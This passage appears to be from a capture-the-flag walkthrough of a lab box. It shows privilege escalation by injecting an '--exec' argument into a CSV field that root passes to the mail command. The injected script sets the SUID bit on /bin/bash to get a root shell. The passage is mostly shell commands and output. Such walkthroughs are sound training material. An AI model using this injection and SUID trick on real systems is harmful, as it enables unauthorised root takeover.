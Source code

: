 ``` 
10.10.11.185 dead:beef::250:56ff:feb9:e74e 
www-data@awkward:~/store$ 
```
11) In /var/www/private we can see something that seems to be mail arguments:
```
www-data@awkward:~/store$ cd /var/www/private/
cd /var/www/private/
www-data@awkward:~/private$ ls
ls
leave_requests.csv
www-data@awkward:~/private$ cat leave_requests.csv
cat leave_requests.csv
Leave Request Database,,,,
,,,,
HR System Username,Reason,Start Date,End Date,Approved
bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
www-data@awkward:~/private$ 
```
12) With pspy we can see that root runs some of them:
```
CMD: UID=0    PID=7481   | mail -s Leave Request: bean.hill christine
```
13) Gtfobins gives us a way to run scripts or binaries with mail
Taking advantage of the rev.sh that we have in /tmp we will add a line that executes it to the mail file
```
www-data@awkward:~/private$ echo '" --exec="\!/tmp/priv.sh"' >> leave_requests.csv
 echo '" --exec="\!/tmp/priv.sh"' >> leave_requests.csv

```
15) GTFO bins give us the `syntax` which we can use to run commands with `root privilege` Let's create a file called `priv.sh` and add the content which will give the `/bin/bash` binary `suid bit` privilege
```
bean@awkward:/tmp$ nano priv.sh
bean@awkward:/tmp$ chmod +x priv.sh
bean@awkward:/tmp$ cat priv.sh 
#!/bin/bash
chmod +s /bin/bash
bean@awkward:/tmp$ ls
priv.sh                         systemd-private-1018e06cf3544def913049b52c40eafd-colord.service-00ZVWC                 systemd-private-1018e06cf3544def913049b52c40eafd-systemd-oomd.service-8dEGGW       tracker-extract-3-files.127
seda3vFvv                       systemd-private-1018e06cf3544def913049b52c40eafd-ModemManager.service-rpcmTt           systemd-private-1018e06cf3544def913049b52c40eafd-systemd-resolved.service-xIEY4u   VMwareDnD
seduEjOie                       systemd-private-1018e06cf3544def913049b52c40eafd-power-profiles-daemon.service-OiAUee  systemd-private-1018e06cf3544def913049b52c40eafd-systemd-timesyncd.service-QSzYgc  vmware-root_676-2731021186
shell.sh                        systemd-private-1018e06cf3544def913049b52c40eafd-switcheroo-control.service-sy1T2m     systemd-private-1018e06cf3544def913049b52c40eafd-upower.service-p4ZAbt
snap.snapd-desktop-integration  systemd-private-1018e06cf3544def913049b52c40eafd-systemd-logind.service-o4mjEn         tracker-extract-3-files.1001
```
16) Then I see the /bin/bash file and I spawn the shell:
```
bean@awkward:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  7  2022 /bin/bash
bean@awkward:/tmp$ /bin/bash -p
```